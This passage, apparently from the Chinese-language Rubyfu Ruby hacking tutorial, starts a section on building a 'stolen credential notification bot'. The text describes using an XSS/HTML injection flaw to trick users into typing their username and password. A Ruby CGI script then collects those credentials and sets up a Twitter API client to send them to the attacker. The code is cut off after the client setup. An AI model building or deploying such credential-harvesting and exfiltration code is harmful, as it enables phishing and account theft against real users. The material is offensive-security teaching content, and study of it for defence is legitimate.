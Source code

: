 ![](img/webfu__twitterAPI1.png)

**轮到你了**，使用上面的例子向@Rubyfu 发推文。将您的代码和输出推文给**@Rubyfu**。

## 构建被盗凭证通知机器人

我们正在利用 XSS/HTML 注入漏洞，并诱使用户输入他们的用户名和密码。想法是，我们将制作一个[CGI 脚本](http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi)，获取被盗的凭据，然后将这些凭据作为通知或日志系统推文给我们

```
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
```